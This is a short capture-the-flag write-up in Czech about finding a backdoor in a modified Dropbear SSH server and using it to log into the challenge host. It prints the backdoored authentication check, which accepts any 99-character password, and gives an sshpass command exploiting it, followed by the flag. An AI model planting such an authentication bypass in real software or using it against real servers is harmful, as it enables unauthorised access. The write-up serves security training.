 #### Challenge:

Náš systémový administrátor má tušení, že použitý SSH server obsahuje backdoor. Můžete jej v přiloženém kódu najít? Když se vám to podaří, ověřte jej v praxi a získejte přístup na tento server: `ssh ctf@forensic-night.cesnet.cz -p 20002` [dropbear-2019.78-backdoored.tar.gz](./dropbear-2019.78-backdoored.tar.gz ':ignore')

---

#### Solution:

```bash
ll -lt ./dropbear-2019.78/ | head -n 5
```

```c
if (passwordlen == 0x63 || constant_time_strcmp(testcrypt, passwdcrypt) == 0) {
    /* successful authentication */
    dropbear_log(LOG_NOTICE,
            "Password auth succeeded for '%s' from %s",
            ses.authstate.pw_name,
            svr_ses.addrstring);
    send_msg_userauth_success();
}
```

```bash
sshpass -p "$(python -c 'print "p" * 99')" ssh ctf@forensic-night.cesnet.cz -p 20002
```

---

<details><summary>FLAG:</summary>

```
flag{Steve_Wozniak-9338}
```

</details>
